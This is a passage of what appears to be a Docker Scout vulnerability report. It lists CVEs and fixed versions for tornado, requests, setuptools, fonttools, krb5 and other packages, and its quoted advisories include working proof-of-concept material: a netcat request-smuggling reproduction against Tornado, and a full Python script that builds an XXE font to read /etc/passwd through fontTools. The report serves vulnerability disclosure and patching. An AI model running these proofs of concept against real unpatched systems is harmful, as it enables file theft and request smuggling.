class MainHandler(tornado.web.RequestHandler):
    def post(self):
        self.write(self.request.body)

async def main():
    tornado.web.Application([(r"/", MainHandler)]).listen(8000)
    await asyncio.Event().wait()

asyncio.run(main())
EOF
python3 server.py &
```
2. Send a valid chunked request:
```bash
printf 'POST / HTTP/1.1\r\nTransfer-Encoding: chunked\r\n\r\n1\r\nZ\r\n0\r\n\r\n' | nc localhost 8000
```
3. Observe that the response is as expected:
```
HTTP/1.1 200 OK
Server: TornadoServer/6.3.3
Content-Type: text/html; charset=UTF-8
Date: Sat, 07 Oct 2023 17:32:05 GMT
Content-Length: 1

Z
```
4. Send a request with two `Transfer-Encoding: chunked` headers:
```
printf 'POST / HTTP/1.1\r\nTransfer-Encoding: chunked\r\nTransfer-Encoding: chunked\r\n\r\n1\r\nZ\r\n0\r\n\r\n' | nc localhost 8000
```
5. Observe the strange response:
```
HTTP/1.1 200 OK
Server: TornadoServer/6.3.3
Content-Type: text/html; charset=UTF-8
Date: Sat, 07 Oct 2023 17:35:40 GMT
Content-Length: 0

HTTP/1.1 400 Bad Request

```
This is because Tornado believes that the request has no message body, so it tries to interpret `1\r\nZ\r\n0\r\n\r\n` as its own request, which causes a 400 response. With a little cleverness involving `chunk-ext`s, you can get Tornado to instead respond 405, which has the potential to desynchronize the connection, as opposed to 400 which should always result in a connection closure.

### Impact
Anyone using Tornado behind a proxy that forwards requests containing multiple `Transfer-Encoding: chunked` headers is vulnerable to request smuggling, which may entail ACL bypass, cache poisoning, or connection desynchronization.


</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2023-28370?s=github&n=tornado&t=pypi&vr=%3C6.3.2"><img alt="medium 5.3: CVE--2023--28370" src="https://img.shields.io/badge/CVE--2023--28370-lightgrey?label=medium%205.3&labelColor=fbb552"/></a> <i>URL Redirection to Untrusted Site ('Open Redirect')</i>

<table>
<tr><td>Affected range</td><td><code><6.3.2</code></td></tr>
<tr><td>Fixed version</td><td><code>6.3.2</code></td></tr>
<tr><td>CVSS Score</td><td><code>5.3</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:P/VC:N/VI:N/VA:N/SC:L/SI:L/SA:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.308%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>53rd percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

Open redirect vulnerability in Tornado versions 6.3.1 and earlier allows a remote unauthenticated attacker to redirect a user to an arbitrary web site and conduct a phishing attack by having user access a specially crafted URL.

</blockquote>
</details>

<a href="https://scout.docker.com/v/GHSA-qppv-j76h-2rpx?s=github&n=tornado&t=pypi&vr=%3C6.3.3"><img alt="medium : GHSA--qppv--j76h--2rpx" src="https://img.shields.io/badge/GHSA--qppv--j76h--2rpx-lightgrey?label=medium%20&labelColor=fbb552"/></a> <i>Inconsistent Interpretation of HTTP Requests ('HTTP Request/Response Smuggling')</i>

<table>
<tr><td>Affected range</td><td><code><6.3.3</code></td></tr>
<tr><td>Fixed version</td><td><code>6.3.3</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

## Summary
Tornado interprets `-`, `+`, and `_` in chunk length and `Content-Length` values, which are not allowed by the HTTP RFCs. This can result in request smuggling when Tornado is deployed behind certain proxies that interpret those non-standard characters differently. This is known to apply to older versions of haproxy, although the current release is not affected.

## Details
Tornado uses the `int` constructor to parse the values of `Content-Length` headers and chunk lengths in the following locations:
### `tornado/http1connection.py:445`
```python3
            self._expected_content_remaining = int(headers["Content-Length"])
```
### `tornado/http1connection.py:621`
```python3
                content_length = int(headers["Content-Length"])  # type: Optional[int]
```
### `tornado/http1connection.py:671`
```python3
            chunk_len = int(chunk_len_str.strip(), 16)
```
Because `int("0_0") == int("+0") == int("-0") == int("0")`, using the `int` constructor to parse and validate strings that should contain only ASCII digits is not a good strategy. 



</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 1" src="https://img.shields.io/badge/H-1-e25d68"/> <img alt="medium: 2" src="https://img.shields.io/badge/M-2-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>requests</strong> <code>2.14.2</code> (pypi)</summary>

<small><code>pkg:pypi/requests@2.14.2</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2018-18074?s=github&n=requests&t=pypi&vr=%3C%3D2.19.1"><img alt="high 7.5: CVE--2018--18074" src="https://img.shields.io/badge/CVE--2018--18074-lightgrey?label=high%207.5&labelColor=e25d68"/></a> <i>Insufficiently Protected Credentials</i>

<table>
<tr><td>Affected range</td><td><code><=2.19.1</code></td></tr>
<tr><td>Fixed version</td><td><code>2.20.0</code></td></tr>
<tr><td>CVSS Score</td><td><code>7.5</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.219%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>45th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

The Requests package through 2.19.1 before 2018-09-14 for Python sends an HTTP Authorization header to an http URI upon receiving a same-hostname https-to-http redirect, which makes it easier for remote attackers to discover credentials by sniffing the network.

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2023-32681?s=github&n=requests&t=pypi&vr=%3E%3D2.3.0%2C%3C2.31.0"><img alt="medium 6.1: CVE--2023--32681" src="https://img.shields.io/badge/CVE--2023--32681-lightgrey?label=medium%206.1&labelColor=fbb552"/></a> <i>Exposure of Sensitive Information to an Unauthorized Actor</i>

<table>
<tr><td>Affected range</td><td><code>>=2.3.0<br/><2.31.0</code></td></tr>
<tr><td>Fixed version</td><td><code>2.31.0</code></td></tr>
<tr><td>CVSS Score</td><td><code>6.1</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:H/PR:N/UI:R/S:C/C:H/I:N/A:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>4.732%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>89th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

### Impact

Since Requests v2.3.0, Requests has been vulnerable to potentially leaking `Proxy-Authorization` headers to destination servers, specifically during redirects to an HTTPS origin. This is a product of how `rebuild_proxies` is used to recompute and [reattach the `Proxy-Authorization` header](https://github.com/psf/requests/blob/f2629e9e3c7ce3c3c8c025bcd8db551101cbc773/requests/sessions.py#L319-L328) to requests when redirected. Note this behavior has _only_ been observed to affect proxied requests when credentials are supplied in the URL user information component (e.g. `https://username:password@proxy:8080`).

**Current vulnerable behavior(s):**

1. HTTP → HTTPS: **leak**
2. HTTPS → HTTP: **no leak**
3. HTTPS → HTTPS: **leak**
4. HTTP → HTTP: **no leak**

For HTTP connections sent through the proxy, the proxy will identify the header in the request itself and remove it prior to forwarding to the destination server. However when sent over HTTPS, the `Proxy-Authorization` header must be sent in the CONNECT request as the proxy has no visibility into further tunneled requests. This results in Requests forwarding the header to the destination server unintentionally, allowing a malicious actor to potentially exfiltrate those credentials.

The reason this currently works for HTTPS connections in Requests is the `Proxy-Authorization` header is also handled by urllib3 with our usage of the ProxyManager in adapters.py with [`proxy_manager_for`](https://github.com/psf/requests/blob/f2629e9e3c7ce3c3c8c025bcd8db551101cbc773/requests/adapters.py#L199-L235). This will compute the required proxy headers in `proxy_headers` and pass them to the Proxy Manager, avoiding attaching them directly to the Request object. This will be our preferred option going forward for default usage.

### Patches
Starting in Requests v2.31.0, Requests will no longer attach this header to redirects with an HTTPS destination. This should have no negative impacts on the default behavior of the library as the proxy credentials are already properly being handled by urllib3's ProxyManager.

For users with custom adapters, this _may_ be potentially breaking if you were already working around this behavior. The previous functionality of `rebuild_proxies` doesn't make sense in any case, so we would encourage any users impacted to migrate any handling of Proxy-Authorization directly into their custom adapter.

### Workarounds
For users who are not able to update Requests immediately, there is one potential workaround.

You may disable redirects by setting `allow_redirects` to `False` on all calls through Requests top-level APIs. Note that if you're currently relying on redirect behaviors, you will need to capture the 3xx response codes and ensure a new request is made to the redirect destination.
```
import requests
r = requests.get('http://github.com/', allow_redirects=False)
```

### Credits

This vulnerability was discovered and disclosed by the following individuals.

Dennis Brinkrolf, Haxolot (https://haxolot.com/)
Tobias Funke, (tobiasfunke93@gmail.com)

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2024-35195?s=github&n=requests&t=pypi&vr=%3C2.32.0"><img alt="medium 5.6: CVE--2024--35195" src="https://img.shields.io/badge/CVE--2024--35195-lightgrey?label=medium%205.6&labelColor=fbb552"/></a> <i>Always-Incorrect Control Flow Implementation</i>

<table>
<tr><td>Affected range</td><td><code><2.32.0</code></td></tr>
<tr><td>Fixed version</td><td><code>2.32.0</code></td></tr>
<tr><td>CVSS Score</td><td><code>5.6</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:L/AC:H/PR:H/UI:R/S:U/C:H/I:H/A:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.018%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>3rd percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

When making requests through a Requests `Session`, if the first request is made with `verify=False` to disable cert verification, all subsequent requests to the same origin will continue to ignore cert verification regardless of changes to the value of `verify`. This behavior will continue for the lifecycle of the connection in the connection pool.

### Remediation
Any of these options can be used to remediate the current issue, we highly recommend upgrading as the preferred mitigation.

* Upgrade to `requests>=2.32.0`.
* For `requests<2.32.0`, avoid setting `verify=False` for the first request to a host while using a Requests Session.
* For `requests<2.32.0`, call `close()` on `Session` objects to clear existing connections if `verify=False` is used.

### Related Links
* https://github.com/psf/requests/pull/6655

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 1" src="https://img.shields.io/badge/H-1-e25d68"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>setuptools</strong> <code>67.6.0</code> (pypi)</summary>

<small><code>pkg:pypi/setuptools@67.6.0</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2024-6345?s=github&n=setuptools&t=pypi&vr=%3C70.0.0"><img alt="high 7.5: CVE--2024--6345" src="https://img.shields.io/badge/CVE--2024--6345-lightgrey?label=high%207.5&labelColor=e25d68"/></a> <i>Improper Control of Generation of Code ('Code Injection')</i>

<table>
<tr><td>Affected range</td><td><code><70.0.0</code></td></tr>
<tr><td>Fixed version</td><td><code>70.0.0</code></td></tr>
<tr><td>CVSS Score</td><td><code>7.5</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:N/AC:L/AT:P/PR:N/UI:A/VC:H/VI:H/VA:H/SC:N/SI:N/SA:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.214%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>44th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

A vulnerability in the `package_index` module of pypa/setuptools versions up to 69.1.1 allows for remote code execution via its download functions. These functions, which are used to download packages from URLs provided by users or retrieved from package index servers, are susceptible to code injection. If these functions are exposed to user-controlled inputs, such as package URLs, they can execute arbitrary commands on the system. The issue is fixed in version 70.0.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 1" src="https://img.shields.io/badge/H-1-e25d68"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>wheel</strong> <code>0.29.0</code> (pypi)</summary>

<small><code>pkg:pypi/wheel@0.29.0</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2022-40898?s=github&n=wheel&t=pypi&vr=%3C0.38.1"><img alt="high 7.5: CVE--2022--40898" src="https://img.shields.io/badge/CVE--2022--40898-lightgrey?label=high%207.5&labelColor=e25d68"/></a> <i>Inefficient Regular Expression Complexity</i>

<table>
<tr><td>Affected range</td><td><code><0.38.1</code></td></tr>
<tr><td>Fixed version</td><td><code>0.38.1</code></td></tr>
<tr><td>CVSS Score</td><td><code>7.5</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.108%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>30th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

Python Packaging Authority (PyPA) Wheel is a reference implementation of the Python wheel packaging standard. Wheel 0.37.1 and earlier are vulnerable to a Regular Expression denial of service via attacker controlled input to the wheel cli. The vulnerable regex is used to verify the validity of Wheel file names. This has been patched in version 0.38.1.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 1" src="https://img.shields.io/badge/H-1-e25d68"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>fonttools</strong> <code>4.39.0</code> (pypi)</summary>

<small><code>pkg:pypi/fonttools@4.39.0</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2023-45139?s=github&n=fonttools&t=pypi&vr=%3E%3D4.28.2%2C%3C4.43.0"><img alt="high 7.5: CVE--2023--45139" src="https://img.shields.io/badge/CVE--2023--45139-lightgrey?label=high%207.5&labelColor=e25d68"/></a> <i>Improper Restriction of XML External Entity Reference</i>

<table>
<tr><td>Affected range</td><td><code>>=4.28.2<br/><4.43.0</code></td></tr>
<tr><td>Fixed version</td><td><code>4.43.0</code></td></tr>
<tr><td>CVSS Score</td><td><code>7.5</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.386%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>59th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

### Summary

As of `fonttools>=4.28.2` the subsetting module has a XML External Entity Injection (XXE) vulnerability which allows an attacker to resolve arbitrary entities when a candidate font (OT-SVG fonts), which contains a SVG table, is parsed. 

This allows attackers to include arbitrary files from the filesystem fontTools is running on or make web requests from the host system. 

### PoC


The vulnerability can be reproduced following the bellow steps on a unix based system.

1. Build a OT-SVG font which includes a external entity in the SVG table which resolves a local file. In our testing we utilised `/etc/passwd` for our POC file to include and modified an existing subset integration test to build the POC font - see bellow.

```python

from string import ascii_letters
from fontTools.fontBuilder import FontBuilder
from fontTools.pens.ttGlyphPen import TTGlyphPen
from fontTools.ttLib import newTable


XXE_SVG = """\
<?xml version="1.0"?>
<!DOCTYPE svg [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <g id="glyph1">
    <text font-size="10" x="0" y="10">&test;</text>
  </g>
</svg>
"""

def main():
    # generate a random TTF font with an SVG table
    glyph_order = [".notdef"] + list(ascii_letters)
    pen = TTGlyphPen(glyphSet=None)
    pen.moveTo((0, 0))
    pen.lineTo((0, 500))
    pen.lineTo((500, 500))
    pen.lineTo((500, 0))
    pen.closePath()
    glyph = pen.glyph()
    glyphs = {g: glyph for g in glyph_order}

    fb = FontBuilder(unitsPerEm=1024, isTTF=True)
    fb.setupGlyphOrder(glyph_order)
    fb.setupCharacterMap({ord(c): c for c in ascii_letters})
    fb.setupGlyf(glyphs)
    fb.setupHorizontalMetrics({g: (500, 0) for g in glyph_order})
    fb.setupHorizontalHeader()
    fb.setupOS2()
    fb.setupPost()
    fb.setupNameTable({"familyName": "TestSVG", "styleName": "Regular"})

    svg_table = newTable("SVG ")
    svg_table.docList = [
       (XXE_SVG, 1, 12)
    ]
    fb.font["SVG "] = svg_table

    fb.font.save('poc-payload.ttf')

if __name__ == '__main__':
    main()

```

2. Subset the font with an affected version of fontTools - we tested on `fonttools==4.42.1` and `fonttools==4.28.2` - using the following flags (which just ensure the malicious glyph is mapped by the font and not discard in the subsetting process):

```shell
pyftsubset poc-payload.ttf --output-file="poc-payload.subset.ttf" --unicodes="*" --ignore-missing-glyphs
```

3. Read the parsed SVG table in the subsetted font:

```shell
ttx -t SVG poc-payload.subset.ttf && cat poc-payload.subset.ttx
```

Observed the included contents of the `/etc/passwd` file. 

### Impact

Note the final severity is dependant on the environment fontTools is running in.

- The vulnerability has the most impact on consumers of fontTools who leverage the subsetting utility to subset untrusted OT-SVG fonts where the vulnerability may be exploited to read arbitrary files from the filesystem of the host fonttools is running on



### Possible Mitigations 

There may be other ways to mitigate the issue, but some suggestions:

1. Set the `resolve_entities=False` flag on parsing methods
2. Consider further methods of disallowing doctype declarations
3. Consider recursive regex matching



</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 3" src="https://img.shields.io/badge/M-3-fbb552"/> <img alt="low: 2" src="https://img.shields.io/badge/L-2-fce1a9"/> <!-- unspecified: 0 --><strong>krb5</strong> <code>1.19.2-2ubuntu0.4</code> (deb)</summary>

<small><code>pkg:deb/ubuntu/krb5@1.19.2-2ubuntu0.4?os_distro=jammy&os_name=ubuntu&os_version=22.04</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2024-3596?s=ubuntu&n=krb5&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3C1.19.2-2ubuntu0.5"><img alt="medium 9.0: CVE--2024--3596" src="https://img.shields.io/badge/CVE--2024--3596-lightgrey?label=medium%209.0&labelColor=fbb552"/></a> 

<table>
<tr><td>Affected range</td><td><code><1.19.2-2ubuntu0.5</code></td></tr>
<tr><td>Fixed version</td><td><code>1.19.2-2ubuntu0.5</code></td></tr>
<tr><td>CVSS Score</td><td><code>9</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.786%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>72nd percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

RADIUS Protocol under RFC 2865 is susceptible to forgery attacks by a local attacker who can modify any valid Response (Access-Accept, Access-Reject, or Access-Challenge) to any other response using a chosen-prefix collision attack against MD5 Response Authenticator signature.

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2025-3576?s=ubuntu&n=krb5&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3E%3D0"><img alt="medium 5.9: CVE--2025--3576" src="https://img.shields.io/badge/CVE--2025--3576-lightgrey?label=medium%205.9&labelColor=fbb552"/></a> 

<table>
<tr><td>Affected range</td><td><code>>=0</code></td></tr>
<tr><td>Fixed version</td><td><strong>Not Fixed</strong></td></tr>
<tr><td>CVSS Score</td><td><code>5.9</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:N/I:H/A:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.012%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>1st percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

A vulnerability in the MIT Kerberos implementation allows GSSAPI-protected messages using RC4-HMAC-MD5 to be spoofed due to weaknesses in the MD5 checksum design. If RC4 is preferred over stronger encryption types, an attacker could exploit MD5 collisions to forge message integrity codes. This may lead to unauthorized message tampering.

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2025-24528?s=ubuntu&n=krb5&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3C1.19.2-2ubuntu0.6"><img alt="medium : CVE--2025--24528" src="https://img.shields.io/badge/CVE--2025--24528-lightgrey?label=medium%20&labelColor=fbb552"/></a> 

<table>
<tr><td>Affected range</td><td><code><1.19.2-2ubuntu0.6</code></td></tr>
<tr><td>Fixed version</td><td><code>1.19.2-2ubuntu0.6</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

In MIT krb5 release 1.7 and later with incremental propagation enabled, an authenticated attacker can cause kadmind to write beyond the end of the mapped region for the iprop log file, likely causing a process crash.

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2024-26461?s=ubuntu&n=krb5&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3C1.19.2-2ubuntu0.6"><img alt="low : CVE--2024--26461" src="https://img.shields.io/badge/CVE--2024--26461-lightgrey?label=low%20&labelColor=fce1a9"/></a> 

<table>
<tr><td>Affected range</td><td><code><1.19.2-2ubuntu0.6</code></td></tr>
<tr><td>Fixed version</td><td><code>1.19.2-2ubuntu0.6</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.053%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>16th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

Kerberos 5 (aka krb5) 1.21.2 contains a memory leak vulnerability in /krb5/src/lib/gssapi/krb5/k5sealv3.c.

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2024-26458?s=ubuntu&n=krb5&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3C1.19.2-2ubuntu0.6"><img alt="low : CVE--2024--26458" src="https://img.shields.io/badge/CVE--2024--26458-lightgrey?label=low%20&labelColor=fce1a9"/></a> 

<table>
<tr><td>Affected range</td><td><code><1.19.2-2ubuntu0.6</code></td></tr>
<tr><td>Fixed version</td><td><code>1.19.2-2ubuntu0.6</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.106%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>30th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

Kerberos 5 (aka krb5) 1.21.2 contains a memory leak in /krb5/src/lib/rpc/pmap_rmt.c.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 2" src="https://img.shields.io/badge/M-2-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>python3.10</strong> <code>3.10.12-1~22.04.7</code> (deb)</summary>

<small><code>pkg:deb/ubuntu/python3.10@3.10.12-1~22.04.7?os_distro=jammy&os_name=ubuntu&os_version=22.04</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2025-0938?s=ubuntu&n=python3.10&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3C3.10.12-1%7E22.04.9"><img alt="medium : CVE--2025--0938" src="https://img.shields.io/badge/CVE--2025--0938-lightgrey?label=medium%20&labelColor=fbb552"/></a> 

<table>
<tr><td>Affected range</td><td><code><3.10.12-1~22.04.9</code></td></tr>
<tr><td>Fixed version</td><td><code>3.10.12-1~22.04.9</code></td></tr>
<tr><td>EPSS Score</td><td><code>1.024%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>76th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

The Python standard library functions `urllib.parse.urlsplit` and `urlparse` accepted domain names that included square brackets which isn't valid according to RFC 3986. Square brackets are only meant to be used as delimiters for specifying IPv6 and IPvFuture hosts in URLs. This could result in differential parsing across the Python URL parser and other specification-compliant URL parsers.

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2024-11168?s=ubuntu&n=python3.10&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3C3.10.12-1%7E22.04.8"><img alt="medium : CVE--2024--11168" src="https://img.shields.io/badge/CVE--2024--11168-lightgrey?label=medium%20&labelColor=fbb552"/></a> 

<table>
<tr><td>Affected range</td><td><code><3.10.12-1~22.04.8</code></td></tr>
<tr><td>Fixed version</td><td><code>3.10.12-1~22.04.8</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.117%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>32nd percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

The urllib.parse.urlsplit() and urlparse() functions improperly validated bracketed hosts (`[]`), allowing hosts that weren't IPv6 or IPvFuture. This behavior was not conformant to RFC 3986 and potentially enabled SSRF if a URL is processed by more than one URL parser.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 2" src="https://img.shields.io/badge/M-2-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>numpy</strong> <code>1.19.5</code> (pypi)</summary>

<small><code>pkg:pypi/numpy@1.19.5</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2021-33430?s=github&n=numpy&t=pypi&vr=%3E%3D1.9.0%2C%3C1.21"><img alt="medium 6.0: CVE--2021--33430" src="https://img.shields.io/badge/CVE--2021--33430-lightgrey?label=medium%206.0&labelColor=fbb552"/></a> <i>Buffer Copy without Checking Size of Input ('Classic Buffer Overflow')</i>

<table>
<tr><td>Affected range</td><td><code>>=1.9.0<br/><1.21</code></td></tr>
<tr><td>Fixed version</td><td><code>1.21</code></td></tr>
<tr><td>CVSS Score</td><td><code>6</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:N/AC:H/AT:N/PR:L/UI:N/VC:N/VI:N/VA:H/SC:N/SI:N/SA:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.110%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>31st percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

A Buffer Overflow vulnerability exists in NumPy 1.9.x in the PyArray_NewFromDescr_int function of ctors.c when specifying arrays of large dimensions (over 32) from Python code, which could let a malicious user cause a Denial of Service.

NOTE: The vendor does not agree this is a vulnerability; In (very limited) circumstances a user may be able provoke the buffer overflow, the user is most likely already privileged to at least provoke denial of service by exhausting memory. Triggering this further requires the use of uncommon API (complicated structured dtypes), which is very unlikely to be available to an unprivileged user.

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2021-34141?s=github&n=numpy&t=pypi&vr=%3C1.22"><img alt="medium 5.3: CVE--2021--34141" src="https://img.shields.io/badge/CVE--2021--34141-lightgrey?label=medium%205.3&labelColor=fbb552"/></a> <i>Incorrect Comparison</i>

<table>
<tr><td>Affected range</td><td><code><1.22</code></td></tr>
<tr><td>Fixed version</td><td><code>1.22</code></td></tr>
<tr><td>CVSS Score</td><td><code>5.3</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:L</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.054%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>17th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

Incomplete string comparison in the numpy.core component in NumPy1.9.x, which allows attackers to fail the APIs via constructing specific string objects.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 1" src="https://img.shields.io/badge/M-1-fbb552"/> <img alt="low: 1" src="https://img.shields.io/badge/L-1-fce1a9"/> <!-- unspecified: 0 --><strong>gnupg2</strong> <code>2.2.27-3ubuntu2.1</code> (deb)</summary>

<small><code>pkg:deb/ubuntu/gnupg2@2.2.27-3ubuntu2.1?os_distro=jammy&os_name=ubuntu&os_version=22.04</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2025-30258?s=ubuntu&n=gnupg2&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3C2.2.27-3ubuntu2.3"><img alt="medium : CVE--2025--30258" src="https://img.shields.io/badge/CVE--2025--30258-lightgrey?label=medium%20&labelColor=fbb552"/></a> 

<table>
<tr><td>Affected range</td><td><code><2.2.27-3ubuntu2.3</code></td></tr>
<tr><td>Fixed version</td><td><code>2.2.27-3ubuntu2.3</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.010%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>1st percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

In GnuPG before 2.5.5, if a user chooses to import a certificate with certain crafted subkey data that lacks a valid backsig or that has incorrect usage flags, the user loses the ability to verify signatures made from certain other signing keys, aka a "verification DoS."

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2022-3219?s=ubuntu&n=gnupg2&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3E%3D0"><img alt="low 3.3: CVE--2022--3219" src="https://img.shields.io/badge/CVE--2022--3219-lightgrey?label=low%203.3&labelColor=fce1a9"/></a> 

<table>
<tr><td>Affected range</td><td><code>>=0</code></td></tr>
<tr><td>Fixed version</td><td><strong>Not Fixed</strong></td></tr>
<tr><td>CVSS Score</td><td><code>3.3</code></td></tr>
